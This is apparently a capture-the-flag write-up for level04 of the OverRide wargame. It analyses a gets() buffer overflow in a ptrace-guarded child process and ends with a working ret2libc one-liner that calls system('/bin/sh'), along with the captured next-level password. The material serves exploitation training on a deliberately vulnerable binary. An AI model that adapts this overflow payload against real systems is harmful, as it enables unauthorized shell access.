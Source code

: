 # **Level04**

In this level, the program asks us to provide shellcode.

```nasm
$ ./level04
Give me some shellcode, k
hello
```

## **Binary Analysis**

The program forks into a **parent** and **child** process:

- **Parent Process:**
    - Monitors the child using `wait()`.
    - Detects `exec()` calls and terminates the child if triggered.
- **Child Process:**
    - Uses `prctl()` and `ptrace()` to prevent debugging.
    - Reads user input with `gets()` (**buffer overflow vulnerability**).

The parent ensures execution control, while the child has a critical vulnerability in `gets()`.

```nasm
 	; Fork process
   0x080486d6: call   fork@plt
   0x080486db: mov    %eax,0xac(%esp)    ; Store pid

  ; Buffer setup
   0x080486d0: sub    $0xb0,%esp         ; Allocate 176 bytes
   0x080486e2: lea    0x20(%esp),%ebx    ; Buffer at esp+32
   0x080486eb: mov    $0x20,%edx         ; Size 32 bytes
   
	  ; Child process (pid == 0)
		0x08048713: movl   $0x1,0x4(%esp)    ; PR_SET_PDEATHSIG
		0x08048722: call   prctl@plt         ; Set death signal
		0x08048746: call   ptrace@plt        ; Anti-debugging
		
		; Parent process
		0x080487dc: call   ptrace@plt        ; Monitor child
		0x080487e8: cmpl   $0xb,0xa8(%esp)   ; Check for SIGTRAP
		
		; In child process
		0x0804875b: mov    %eax,(%esp)       ; Buffer address
		0x0804875e: call   gets@plt          ; Vulnerable gets call
```

**pseudocode:**

```c
int main() {
    pid_t pid = fork();    // Creates two processes
    char buffer[32] = {0}; // 32-byte buffer

    if (pid == 0) {        // Child process
        prctl(1, 1);       // Set death signal
        ptrace(0, 0, 0, 0);// Anti-debug setup
        
        puts("Give me some shellcode, k");
        gets(buffer);      // Vulnerable gets
    }
    else {                 // Parent process
        wait(&status);     // Wait for child
        ptrace(3, pid, 44, 0); // Monitor child
        
        if (status == 11)  // Check for exec
            puts("no exec() for you");
    }
}
```

## **Vulnerability**

The `gets()` function doesn't check the input size, and the buffer is only 32 bytes. This lets us write past the buffer and overwrite the return address, which can be exploited. Also, there is a vulnerability in the libc functions that can be used.

```c
gdb) info functions
[...]
0x08048530  __libc_start_main
0x08048530  __libc_start_main@plt
[...]
(gdb)
```

## **Exploit**

We need to retrieve the address of the `system` function and the address of the `"/bin/sh"` string to spawn a shell.

```c
(gdb) b *main
Breakpoint 1 at 0x80486c8
(gdb) r
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486c8 in main ()
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb)
```

Next, we need to find the offset of the return address by analyzing what happens when we input various lengths.

```python
# 154 bytes: Program exits normally
python -c 'print "A"*154' | ./level04
child is exiting...

# 155 bytes: Program exits normally
python -c 'print "A"*155' | ./level04
child is exiting...

# 156 bytes: Program behavior changes
python -c 'print "A"*156' | ./level04
Give me some shellcode, k
```

Now we can create the proper exploit:

```python
# Addresses
system = 0xf7e6aed0    # system() address
binsh = 0xf7f897ec     # "/bin/sh" string address

# Craft payload
payload = "A" * 156     # Exact padding to reach return address
payload += system       # system() address
payload += "JUNK"       # 4 bytes fake return
payload += binsh        # "/bin/sh" address
```

Final exploit:

```python
(python -c 'print "A"*156 + "\xd0\xae\xe6\xf7" + "MIMI" + "\xec\x97\xf8\xf7"'; cat) | ./level04
```

Execute the exploit:

```python
level04@OverRide:~$ (python -c 'print "A"*156 + "\xd0\xae\xe6\xf7" + "MIMI" + "\xec\x97\xf8\xf7"'; cat) | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN

```

## Flag

```python
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```